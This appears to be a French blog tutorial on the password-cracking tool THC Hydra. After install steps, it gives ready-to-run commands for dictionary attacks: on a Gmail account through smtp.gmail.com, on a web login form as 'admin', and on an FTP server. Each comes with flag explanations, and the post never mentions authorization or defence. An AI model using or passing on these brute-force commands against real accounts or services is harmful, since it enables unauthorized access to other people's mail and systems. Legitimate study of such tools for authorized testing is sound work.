 ```yaml
---
title: Hydra, un outil de craquage de mot de passe
author: Davistar
layout: post
permalink: "/hacking/hydra.html"
read_time: true
category: hacking
image: /techlovers/assets/2018-10-25/image1hydra.jpeg
---
```


&nbsp;

## Qu'est-ce que Hydra ?
THC Hydra est un outil de piratage de mots de passe capable d’exécuter des attaques de dictionnaire très rapides contre plus de cinquante protocoles. 
C'est un outil de piratage de connexion réseau rapide et stable qui utilise des attaques par dictionnaire ou par force brute pour essayer diverses combinaisons de mots de passe et de connexion sur une page de connexion.

## Quelles sont les utilisations typiques de THC Hydra ?
Hydra est utilisé en tant que pirate de connexion parallélisé prenant en charge de nombreux protocoles d’attaque. Les nouveaux modules sont faciles à ajouter. Cet outil montre à quel point il est facile d’obtenir un accès non autorisé à distance.

## Installer Hydra

Hydra est très simple d'installation. Sous Parrot et Kali, Hydra est déjà pré-installé.

### Sur Linux

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo apt update && apt upgrade -y && apt install hydra -y
# sudo apt install hydra-gtk si vous voulez hydra en GUI
{% endhighlight %}

## Comment Utiliser Hydra : 

Pour afficher l'aide de Hydra 

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo hydra -h
{% endhighlight %}

### Cracker un compte smtp avec Hydra via un dictionnaire :
Explication en vidéo ici => [https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s](https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s)

Notre serveur smtp : smtp.gmail.com
Notre port smtp : 465 ou 587

{% highlight bash %}
$ sudo hydra -l target@gmail.com -P wordlist.txt -S 465 -v -V -t 1 smtp.gmail.com smtp
{% endhighlight %}

 > -l = précise le login
 > -P = précise la wordlist
 > -S = précise le port
 > -v = pour rendre l'attaque verbeuse
 > -t = le nombre de threads
 > smtp = le protocole de l'attaque

### Cracker un compte via une page login post form :

{% highlight bash %}
$ hydra <IP> https-post-form "/login/login.php:user=admin&password=^PASS^ :F=failed" -l admin -P wordlist.txt -t 1 -V
{% endhighlight %}

### Cracker un compte FTP via Hydra

{% highlight bash %}
$ hydra -l admin -P passlist.txt ftp://192.168.1.70
{% endhighlight %}